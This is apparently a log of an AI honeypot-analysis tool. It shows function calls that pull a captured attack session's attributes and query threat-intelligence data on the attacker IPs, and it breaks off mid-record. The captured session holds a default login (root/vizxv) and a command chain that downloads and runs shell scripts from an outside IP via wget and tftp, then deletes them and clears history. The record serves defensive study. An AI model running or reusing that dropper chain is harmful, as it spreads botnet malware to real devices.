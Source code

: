 
**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `8bf3b3fa2362` |
| `attrs` | `['username', 'password', 'ssh_hassh', 'ssh_version', 'commands', 'http_requests']` |

| Output | Value |
| --- | --- |
| `username` | `root` |
| `password` | `vizxv` |
| `ssh_hassh` | `None` |
| `ssh_version` | `None` |
| `commands` | `['sh', 'cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/ISIS.sh; chmod 777 *; sh ISIS.sh; tftp -g 87.242.89.170 -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c']` |
| `http_requests` | `{}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize what is known about the location of the IP addresses involved in the attack.

**Run ID:** `run_qZT5fuLcuIJ4z7Nz1iKnxKSS`

### Funciton Calls
**Step ID:** `step_aatuDzXuYhocZX343tXCHy3W`

**Function called:** `query_ip_data`

| Argument | Value |
| --- | --- |
| `ips` | `['87.242.92.23']` |
| `sources` | `['cybergordon', 'shodan', 'isc']` |

| Output | Value |
| --- | --- |
| `87.242.92.23` | `{'cybergordon': {'[E2] AbuseIPDB': ' ISP: Cloud.ru. Usage: Data Center/Web Hosting/Transit. Risk 61%. 51 report(s) by 23 user(s), last on 14 December 2023  ', '[E33] GreyNoise': 'Last report on 16 December 2023 as unknown and scanning the Internet in the last 3 months. ', '[E11] DShield/ISC': 'Found in 2 report(s) listing 2 target(s), last on 16 Dec 2023 ', '[E12] AlienVault OTX': 'Found in 1 pulse-feed(s) ', '[E23] Offline Feeds': 'Found in Duggy Tuxy - EU Botnets/Zombies/Scanners '}, 'shodan': {'general': {'Country': 'Russian Federation', 'City': 'Moscow', 'Organization': 'Cloud technology Limited (Ltd.)', 'ISP': 'Cloud technology Limited (Ltd.)', 'ASN': 'AS208677'}, 'port22': {'protocol': 'tcp', 'service_name': 'OpenSSH7.4'}}, 'isc': {'total_reports': 2, 'honeypots_targeted': 2, 'firstseen': '2023-12-10', 'lastseen': '2023-12-16', 'network': '87.242.88.0/21', 'asname': 'CLOUDRU-AS', 'as_country_code': "('RU', None)", 'threatfeeds': None}}` |


**Function called:** `query_ip_data`

| Argument | Value |
| --- | --- |
| `ips` | `['87.242.89.170']` |
| `sources` | `['shodan']` |
